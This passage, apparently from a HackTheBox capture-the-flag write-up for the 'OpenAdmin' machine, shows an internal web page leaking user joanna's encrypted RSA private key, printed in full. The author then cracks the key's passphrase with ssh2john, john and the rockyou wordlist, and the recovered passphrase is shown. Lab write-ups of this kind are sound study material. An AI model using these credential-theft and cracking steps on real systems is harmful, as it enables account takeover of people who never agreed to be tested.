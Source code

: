 My reverse SSH tunneling seems to be an issue with HackTheBox machine. So I just curl directly.

```bash
jimmy@openadmin:/var/www/internal$ curl localhost:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Convert to hash and crack it with `john`.

```bash
ghost@localhost [01:10:13] [~/Documents/hacking/tj-null-boxes/openadmin] [master *]
-> % ssh2john rsa.joanna > hash.ssh.joanna

ghost@localhost [01:10:29] [~/Documents/hacking/tj-null-boxes/openadmin] [master *]
-> % john hash.ssh.joanna -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

bloodninjas      (rsa.joanna)

1g 0:00:00:01 DONE (2022-11-14 01:10) 0.6369g/s 6098Kp/s 6098Kc/s 6098KC/s bloodninjas..bloodmabite
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
